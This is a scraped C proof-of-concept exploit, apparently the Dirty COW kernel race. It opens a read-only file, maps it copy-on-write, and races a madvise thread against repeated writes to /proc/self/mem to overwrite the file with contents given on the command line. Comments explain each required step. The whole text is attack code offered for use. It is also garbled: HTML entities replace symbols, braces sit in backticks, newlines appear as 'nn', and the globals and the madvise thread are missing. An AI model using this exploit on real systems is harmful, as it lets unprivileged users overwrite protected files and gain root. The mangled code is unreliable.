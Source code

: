 ```
 
void *procselfmemThread(void *arg)
`{`
  char *str;
  str=(char*)arg;
/*
You have to write to /proc/self/mem :: https://bugzilla.redhat.com/show_bug.cgi?id=1384344#c16
&gt;  The in the wild exploit we are aware of doesn't work on Red Hat
&gt;  Enterprise Linux 5 and 6 out of the box because on one side of
&gt;  the race it writes to /proc/self/mem, but /proc/self/mem is not
&gt;  writable on Red Hat Enterprise Linux 5 and 6.
*/
  int f=open("/proc/self/mem",O_RDWR);
  int i,c=0;
  for(i=0;i&lt;100000000;i++) `{`
/*
You have to reset the file pointer to the memory position.
*/
    lseek(f,map,SEEK_SET);
    c+=write(f,str,strlen(str));
  `}`
  printf("procselfmem %dnn", c);
`}`
 
 
int main(int argc,char *argv[])
`{`
/*
You have to pass two arguments. File and Contents.
*/
  if (argc&lt;3)return 1;
  pthread_t pth1,pth2;
/*
You have to open the file in read only mode.
*/
  f=open(argv[1],O_RDONLY);
  fstat(f,&amp;st);
  name=argv[1];
/*
You have to use MAP_PRIVATE for copy-on-write mapping.
&gt; Create a private copy-on-write mapping.  Updates to the
&gt; mapping are not visible to other processes mapping the same
&gt; file, and are not carried through to the underlying file.  It
&gt; is unspecified whether changes made to the file after the
&gt; mmap() call are visible in the mapped region.
*/
/*
You have to open with PROT_READ.
*/
  map=mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);
  printf("mmap %xnn",map);
/*
You have to do it on two threads.
*/
  pthread_create(&amp;pth1,NULL,madviseThread,argv[1]);
  pthread_create(&amp;pth2,NULL,procselfmemThread,argv[2]);
/*
You have to wait for the threads to finish.
*/
  pthread_join(pth1,NULL);
  pthread_join(pth2,NULL);
  return 0;
`}`
```